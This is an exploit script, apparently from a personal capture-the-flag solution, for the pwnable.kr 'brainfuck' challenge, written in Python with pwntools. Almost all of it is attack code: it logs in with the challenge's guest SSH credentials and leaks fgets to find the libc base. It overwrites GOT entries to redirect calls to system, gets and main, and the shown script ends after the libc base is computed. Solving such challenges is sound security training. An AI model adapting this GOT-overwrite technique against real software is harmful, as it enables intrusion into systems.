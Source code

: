 ## Exploit Code
```python
from pwn import *

context(log_level='debug', os='linux', arch='i386')

session = ssh(user='brainfuck', host='pwnable.kr', port=2222, password='guest') # When I solved this challenge, nc did not work
p = session.process('./brainfuck')

# Local files for finding offsets (which are not affected by ASLR)
e = ELF(r'/mnt/c/users/dalal/desktop/private_projects/ctf/pwnable.kr/brainfuck/brainfuck')
libc = ELF(r'/usr/lib32/libc.so.6')

fgets_got = e.got['fgets']
memset_got = e.got['memset']
putchar_got = e.got['putchar']

# Libc offsets
fgets_offset = libc.symbols['fgets']
gets_offset = libc.symbols['gets']
system_offset = libc.symbols['system']
main_addr = 0x08048700 # does not affected by ASLR

tape_addr = 0x804a0a0

payload = ""

# Move to fgets@got
payload += "<" * (tape_addr - fgets_got)

# Leak 4 bytes of fgets address
payload += ".>" * 4
payload += "<" * 4 

# Overwrite fgets@got with system address
payload += ",>" * 4
payload += "<" * 4

# Move to memset@got
payload += ">" * (memset_got - fgets_got)

# Overwrite memset@got with gets address
payload += ",>" * 4

# Overwrite putchar@got with main address (The pointer is already in putchar@got so no need to move)
payload += ",>" * 4

# Trigger main() by calling putchar
payload += "."

p.sendlineafter(b"type some brainfuck instructions except [ ]\n", payload.encode())
sleep(0.1)

fgets_addr = u32(p.recvn(4))

libc_base = fgets_addr - fgets_offset
system_addr = libc_base + system_offset
gets_addr = libc_base + gets_offset

log.info(f"fgets_addr: {hex(fgets_addr)}")
log.info(f"libc base: {hex(libc_base)}")
```